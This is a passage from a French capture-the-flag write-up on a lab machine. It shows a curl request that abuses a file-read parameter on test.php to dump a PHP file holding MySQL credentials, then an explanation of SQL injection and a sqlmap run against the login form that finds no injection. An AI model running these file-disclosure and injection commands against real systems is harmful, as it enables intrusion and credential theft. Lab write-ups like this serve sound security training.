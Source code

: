 ```console
	 header('Location: panel.php', true, 302);
--snip--
```

... ou encore le fichier ```c.php``` contenant les identifiants de connexion à la base de données MySQL.

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/c.php"
--snip--

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }
--snip--
```

## Injection SQL sur la page index.php ?

Le message situé au-dessus du formulaire de connexion nous incite à tester des [injections SQL](https://www.owasp.org/index.php/SQL_Injection). Le formulaire consiste en deux champs : un login (paramètre ```un```) et un mot de passe (paramètre ```ps```). Le principe est le suivant : les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. Une personne malveillante va alors pouvoir modifier le fonctionnement d'origine de ce formulaire, en y insérant des données non prévues.

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL... et il semblerait au vu des résultats que ce soit une fausse piste !

```console
root@blinils:~# sqlmap -u "http://192.168.56.107/index.php" \
--dbms=MySQL --data="un=test&ps=test&login=let%27s+login" --risk=3 --level=5

--snip--

[11:12:13] [INFO] testing if POST parameter 'un' is dynamic
[11:12:13] [WARNING] POST parameter 'un' does not appear to be dynamic
[11:12:13] [WARNING] heuristic (basic) test shows that POST parameter 'un' might not be injectable
[11:12:13] [INFO] testing for SQL injection on POST parameter 'un'
--snip--
[11:22:33] [WARNING] POST parameter 'un' does not seem to be injectable
[11:22:33] [INFO] testing if POST parameter 'ps' is dynamic
[11:22:33] [WARNING] POST parameter 'ps' does not appear to be dynamic
[11:22:33] [WARNING] heuristic (basic) test shows that POST parameter 'ps' might not be injectable
[11:22:33] [INFO] testing for SQL injection on POST parameter 'ps'
--snip--
[11:32:22] [WARNING] POST parameter 'ps' does not seem to be injectable
[11:32:22] [INFO] testing if POST parameter 'login' is dynamic
[11:32:22] [WARNING] POST parameter 'login' does not appear to be dynamic
[11:32:22] [WARNING] heuristic (basic) test shows that POST parameter 'login' might not be injectable
[11:32:22] [INFO] testing for SQL injection on POST parameter 'login'
--snip--
[11:33:55] [WARNING] POST parameter 'login' does not seem to be injectable
[11:33:55] [INFO] testing if Referer parameter 'Referer' is dynamic
[11:33:55] [WARNING] Referer parameter 'Referer' does not appear to be dynamic
```